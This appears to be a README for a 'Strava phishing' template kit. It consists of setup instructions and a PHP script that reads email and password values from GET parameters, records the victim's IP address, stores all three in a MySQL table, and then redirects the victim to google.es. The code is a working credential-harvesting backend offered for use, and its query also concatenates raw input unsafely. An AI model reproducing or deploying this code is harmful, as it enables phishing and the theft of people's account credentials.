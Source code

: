 Phishing templates.
Strava phishing



Db connection:
Create a database, modify the following text in php and add it to the files.

PHP connection:
---------------------------------------------------------------------------------------------------------------------
"<?php

$servername = "localhost";

$database = "X";

$username = "X";

$password = "X";

// creamos conexion

  $conn = mysqli_connect($servername, $username, $password, $database);
  
//si estan todos los campos rellenos los insertamos en la base de datos

  if( isset($_GET["email"]) && isset($_GET["password"]) && isset($_SERVER["REQUEST_METHOD"]) ){
  
$pass = $_GET["password"];

$mail = $_GET["email"];

 if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
        $ipAddress = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $ipAddress = $_SERVER['HTTP_X_FORWARDED_FOR'];
    } else {
        $ipAddress = $_SERVER['REMOTE_ADDR'];
    }

  $insert = "insert into datos values('$mail', '$pass', '(WEB)', '$ipAddress')";

//realizamos consulta para insertar los datos

  $return = mysqli_query( $conn, $insert);
  
  print_r( ( $return));
        header("Location: https://www.google.es");
        exit();
        
}

mysqli_close( $conn);

?>"




